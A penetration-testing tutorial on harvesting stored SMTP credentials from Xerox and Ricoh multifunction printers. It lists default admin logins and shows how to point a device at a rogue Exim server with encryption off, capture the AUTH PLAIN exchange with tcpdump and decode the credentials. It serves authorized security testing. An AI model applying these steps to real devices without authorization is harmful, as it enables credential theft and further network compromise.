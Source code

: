 
# Introduction

Network printers and Multifunction Devices (MFDs) are very often a part of a
corporate network to which little attention is paid.  It is not unusual to
find such devices on a network during an internal penetration test with
default administrative credentials set.  Such devices are often configured
with useful credentials, however, so that they can interact with other
network infrastructure. For example, a scanner might be configured with
Active Directory credentials to allow it to upload files or send email.

While these credentials are concealed in the administrative interfaces of
such devices, these credentials can actually be extracted and subsequently
used by penetration testers to authenticate to other network services if not
not properly locked down.

This article will walk the reader through examples of extracting SMTP mail
service credentials from two different types of MFDs.  It is assumed that
the reader has already gained access to the administrative interfaces of
such devices due to misconfiguration.

# Configure Your Mail Server

The first step is to set up a new mail server on the network which is under
our control.  The vulnerable MFD will be reconfigured to send mail through
our mail server using the existing (but concealed) credentials.  We will
monitor the mail transmission and capture the credentials when they are sent to
our mail server.

Any SMTP server will work. In this article I'll use Exim running on Ubuntu
18.04. First, install Exim with `apt-get install exim4`. Reconfigure with
`dpkg-reconfigure exim4-config`. Answer defaults to all questions except
"Split configuration into small files" - answer Yes here.

Insert the following exim4 configuration snippet to a new file at
/etc/exim4/conf.d/auth/20_authplain:

```
# enable plaintext authentication via AUTH PLAIN
plain_server:
  driver = plaintext
  public_name = PLAIN
  server_condition = "${if crypteq{$auth3}{${extract{1}{:}{${lookup{$auth2}lsearch{CONFDIR/passwd}{$value}{*:*}}}}}{1}{0}}"
  server_set_id = $auth2
  server_prompts = :
```

Edit /etc/exim4/conf.d/main/01_exim4-config_listmacrosdefs. Comment out the
following:

```
# listen on all all interfaces?
#.ifdef MAIN_LOCAL_INTERFACES
#local_interfaces = MAIN_LOCAL_INTERFACES
#.endif
```

Insert the following exim4 configuration snippet to a new file at
/etc/exim4/conf.d/main/10_listen_everywhere

```
local_interfaces=0.0.0.0
```

Regenerate the master configuration file and restart exim:

```
yourmailserver% update-exim4.conf
yourmailserver% systemctl restart exim4
```

Verify that authentication is enabled:

```
yourmailserver% nc -nv 127.0.0.1 25
Connection to 127.0.0.1 25 port [tcp/*] succeeded!
220 yourmailserver.xelphene.net ESMTP Exim 4.90_1 Ubuntu Fri, 16 Aug 2019 05:49:23 -0400
EHLO example.com
250-yourmailserver.xelphene.net Hello localhost [127.0.0.1]
250-SIZE 52428800
250-8BITMIME
250-PIPELINING
250-AUTH PLAIN
250-CHUNKING
250-PRDR
250 HELP
```

If you see `250-AUTH PLAIN` after the EHLO, you're all set and ready to make
an MFD try to log in to your mail server.


# Configuring a Xerox WorkCentre

First, browse to the device with your web browser and log in with the
default credentials, username "admin", password "1111". Go to the Properties
tab across the top and then Services -> E-mail -> Setup in the navigation
tree on the left.

Hit the "Edit..." link to the right of the SMTP setting. You'll end up
at the first page of SMTP settings. **Be sure to save everything you see
here**. After you're finished you'll need to revert these.

After you've saved the production settings somewhere, change the SMTP server
to the host name or IP address of your own mail server set up previously. 
Set it to use port 25.  Once you're finished, hit Save.

![Required Information Tab][required_info]

Next, head over to the Connection Encryption tab. **Skip the SMTP
Authentication tab. We don't want to lose what's already there.** Save the settings
on this tab to restore later. Set Connection Encryption to "No Encryption".
Hit Save.

![Connection Encryption Tab][connection_encryption]

You're ready have the device log in to your mail server. First, set up a
packet capture on your mail server to record the credentials:

```
yourmailserver% tcpdump -i ens160 -w pcap -n -s 1500 host 10.0.1.10 and port 25
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on ens160, link-type EN10MB (Ethernet), capture size 1500 bytes
```

The packet capture will be written to a file named `pcap`. `-s 1500` should
reflect the MTU of the interface you're capturing from. 1500 is typical for
Ethernet. `ip addr show` can be used to obtain the correct MTU.

With your packet capture set up, head back over to the WorkCentre's web interface. 
Proceed to the "Test Configuration" tab and do a test.  You can enter any
email address at all on the "To Address" field. You will probably get an
error message back.

Regardless, the WorkCentre tried to log in to our mail server with the
already-configured credentials and these should now be in our packet
capture.

Shut down the packet capture with ctrl-C:

```
yourmailserver% tcpdump -i ens160 -w pcap -n -s 1500 host 10.0.1.10 and port 25
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on ens160, link-type EN10MB (Ethernet), capture size 1500 bytes
^C0 packets captured
0 packets received by filter
0 packets dropped by kernel
```

Use `strings` to get non-binary content from the packet capture file. We
should be able to see the complete SMTP transaction:

```
yourmailserver% strings pcap
220 yourmailserver.xelphene.net ESMTP Exim 4.90_1 Ubuntu Thu, 15 Aug 2019 01:54:07 -0400
EHLO salesprinter.ad.xelphene.net
250-yourmailserver.xelphene.net Hello salesprinter.ad.xelphene.net [10.0.1.10]
250-SIZE 52428800
250-8BITMIME
250-PIPELINING
250-AUTH PLAIN
250-CHUNKING
250-PRDR
250 HELP
AUTH PLAIN
334 
AHNhbGVzc2NhbmVyMgBtZmZ4OTg3IQ==
535 Incorrect authentication data
```

The line between `334` and `535 Incorrect authentication data` is what we're
looking for.  That's the base64-encoded credentials.  The username and
password are separated by a null.  Decode them with any base64 decoder and
parse by the nulls:

```
yourmailserver% base64 -d - | tr '\0' '\n'
AHNhbGVzc2NhbmVyMgBtZmZ4OTg3IQ==
^D

salesscaner2
mffx987!
yourmailserver% 
```

Voila - you now have some hopefully useful credentials.

Don't forget to clean up: back on the WorkCentre, restore the original
settings you saved at the Required Information tab and the Connection
Encryption tab.  Remember to hit Save after each tab.

With a little luck those are AD credentials and with a little more luck
they have access to more than just an SMTP relay ;).

[emailsetup]: emailsetup.png "E-mail Setup"
[required_info]: required_info.png "Required Information"
[connection_encryption]: connection_encryption.png "Connection Encryption"

# Configuring a Ricoh MP 306Z

The default administrator credentials are username "admin" with a blank
password.

After logging in and arriving at the home page, go to Device Management ->
Configuration.  SMTP settings can be found there at Device Settings ->
Email.

In the SMTP section, configure your mail server's hostname/IP address, port
25, and set SMTP Auth Encryption to Inactive. Be sure to save prior
settings.

These devices apparently do not have a way to send a test message on demand. 
You can set the device up to send various notifications.  From the
Configuration page, hit Device Settings -> Auto Email Notification.  Add any
email address to a Group in the "Groups to Notify" section.  In the "Select
Groups/Items to Notify" check the box for as many notifications as possible.

There's a notification for "Device Access Violation", but strangely this
doesn't do anything for failed adminstrative logins. As far as I can tell,
one must wait for one of these events to occur naturally.

If the device has any scanned documents available on it, you can ask it to
send one immediately. From the Home page, go to Print Job/Stored File ->
Document Server and look around.

# Conclusion

These often underlooked devices frequently contain useful information which
can lead to further compromise, and it is not difficult to extract them.
Always have a look for this low hanging fruit on any internal pen test.

